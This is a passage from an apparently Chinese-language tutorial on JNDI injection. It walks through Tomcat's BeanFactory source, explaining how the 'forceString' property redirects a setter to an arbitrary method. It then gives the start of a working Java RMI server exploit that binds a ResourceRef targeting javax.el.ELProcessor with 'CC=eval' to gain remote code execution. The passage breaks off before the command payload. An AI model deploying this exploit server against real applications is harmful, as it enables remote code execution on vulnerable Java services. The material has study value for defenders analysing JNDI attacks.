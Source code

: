                                     " not found for property " + param);
                            }
                        }
                    }

                    Enumeration<RefAddr> e = ref.getAll();

                    while (e.hasMoreElements()) {  // 遍历Reference中的所有RefAddr
                        ra = e.nextElement();
                        String propName = ra.getType();  // 获取属性名
                        // 过滤一些特殊的属性名，例如前面的forceString
                        if (propName.equals(Constants.FACTORY) ||
                            propName.equals("scope") || propName.equals("auth") ||
                            propName.equals("forceString") ||
                            propName.equals("singleton")) {
                            continue;
                        }

                        value = (String)ra.getContent();  // 属性名对应的参数
                        Object[] valueArray = new Object[1];

                        /* Shortcut for properties with explicitly configured setter */
                        Method method = forced.get(propName);  // 根据属性名获取对应的方法
                        if (method != null) {
                            valueArray[0] = value;
                            try {
                                method.invoke(bean, valueArray);  // 执行方法，可用用forceString强制指定某个函数
                            } catch () {}
                            continue;
                        }
            // 省略
                    }
                }
            }
        }
    } 
    ```

根据源代码的逻辑，在ldap或rmi服务器，满足以下条件的RefAddr

- 该类必须有public无参构造方法
- 并在其中设置一个forceString字段指定某个特殊方法名，该方法执行String类型的参数
- 通过上面的方法和一个String参数即可实现RCE

####  javax.el.ELProcessor.eval

`javax.el.ELProcessor`常被作为目标Class。启动RMI Server的利用代码如下：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;
import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIServer {
    public static void main(String[] args) throws Exception {
        Registry registry = LocateRegistry.createRegistry(1099);
        // 实例化Reference，指定目标类为javax.el.ELProcessor，工厂类为org.apache.naming.factory.BeanFactory
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);

        // 强制将 'x' 属性的setter 从 'setX' 变为 'eval', 详细逻辑见 BeanFactory.getObjectInstance 代码
        ref.add(new StringRefAddr("forceString", "CC=eval"));

        // 指定bitterz属性指定其setter方法需要的参数，实际是ElProcessor.eval方法执行的参数，利用表达式执行命令
```